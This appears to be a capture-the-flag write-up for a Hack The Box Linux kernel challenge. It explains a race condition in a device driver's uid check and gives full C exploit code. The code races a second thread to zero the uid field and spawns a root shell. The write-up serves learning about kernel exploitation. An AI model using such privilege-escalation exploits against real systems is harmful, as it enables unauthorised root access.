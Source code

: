 # HTB Kernel Adventrue Part I

## Description

- This challenge is a linux kernel pwn.And I'm not familiar with that.So it takes me some time to solve this challenge(BTW, upload the exp to the server also took a lot of time)

## Vulnerability

- The vulnerability is race condition.
- This challenge has a linux kernel module named mysu.ko.It is a simple char device.There are only two interface which communicate with user space named `dev_write`，`dev_read`.
- When you enter dev_write.It will check the first 4 bytes of the buffer.It must be 0x3e8 or 0x3e9.Then it will enter the `hash` function.This function implement a hash algorithm and it will calc the hash value of the last bytes in your buffer.The hash value must equal to a magic number.But this magic number is zero in the archive the author give us.So it's easy to exploit it on our local machine.It will call `prepare_creds` function and use the first 4 bytes in your buffer to set uid and gid then call  `commit_creds` function.With the first check,the uid must be 0x3e8 or 0x3e9?
- No.The start script indicates this machine has 2 cpu.And the whole procedure doesn't use a lock.So we could set the first 4 bytes to pass the check.Then we can start another thread to set the first 4 bytes to 0.We could meet the situation when we use 0x3e9 to pass the first check and another cpu set the first 4 bytes to 0.Then we pass the hash check.The uid and gid will be 0.So we become root.
- I compile the exp with static option and use gzip to compress it.The I use base64 so that I can copy and paste it on the remote machine.

## Exploit

```c
#include<stdint.h>
#include<stdio.h>
#include<fcntl.h>
#include<pthread.h>
void set_buffer(char *);
int ok = 1;
int main() {
	int fd = open("/dev/mysu", O_RDWR);
	if(fd < 0) {
		printf("[-]open the device failed!\n");
		return -1;
	}

	char *buf = (char *)malloc(0x20);
	unsigned int hash = 0;
	read(fd, buf, 0x20);
	hash = *(unsigned int *)(buf + 0xC);
	printf("the hash value is 0x%x\n", hash);
	memset(buf, 0, 0x20);
	*(unsigned int *)buf = 0x3e9;
	char table[5] = {0x5e, 0x6a, 0x8e, 0x75, 0x23}; 
	int i = 0;
	for(i = 0; i < 5; i++) {
		*(buf + i + 4) = table[i];
	} 
	int count = 0;
	pthread_t ntid;
	pthread_create(&ntid, NULL, set_buffer, buf);
	printf("start race condition!\n");
	while(count != 10000000) {
		if(getuid() == 0){
			ok = 0;
			printf("I'm root right now!\n");
			system("/bin/sh");
		}
		*(unsigned int *)buf = 0x3e9;
   		char table[5] = {0x5e, 0x6a, 0x8e, 0x75, 0x23}; 
   		for(i = 0; i < 5; i++) {
   			*(buf + i + 4) = table[i];
   		}
		write(fd, buf, 10);
		if(getuid() == 0){
          ok = 0;
		  printf("I'm root right now!\n");
		  system("/bin/sh");
		}

		count++;
	}
	ok = 0;
	pthread_join(ntid, NULL);
	close(fd);
	return 0;
}

void set_buffer(char *buf) {
	while(ok) {
		uint32_t *buffer = (uint32_t *)buf;
		*buffer = 0;
		if(getuid() == 0){
			printf("I'm root right now!\n");
			ok = 0;
		}
	}
}
```

